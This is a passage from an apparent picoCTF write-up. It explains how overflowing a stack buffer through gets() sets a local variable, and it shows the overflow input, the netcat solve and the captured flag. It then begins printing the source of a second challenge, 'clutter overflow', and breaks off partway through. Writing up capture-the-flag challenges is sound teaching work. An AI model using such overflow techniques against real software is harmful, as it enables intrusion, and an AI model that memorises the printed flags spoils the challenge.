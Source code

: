```c
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }

  printf("Bye!\n");
  fflush(stdout);
}
```

And here is the checksec result:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Inspecting the source code, we need to trigger this conditional: `if( num == 65 )`. But num is declared as `64` right after our variable `input`. Luckily, there is a `gets` function that writes into `input`. We can use it to cause a buffer overflow and right into `num`, which is a local variable and is therefore stored on the stack.

We just need to provide an input that overwrites our char buffer, overwrite the space in between the buffer and the `num` variable, and then just overwrite the `num` variable itself. As we want `num` to be `65`, we can just write the character `A` into it, as the ASCII value of it is `65`.

This is my solve:

```
nc saturn.picoctf.net 56776
Enter a string: AAAAAAAAAAAAAAAABBBBBBBBA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```

flag: `picoCTF{l0c4l5_1n_5c0p3_ee58441a}`

## clutter overflow

Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER =
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
```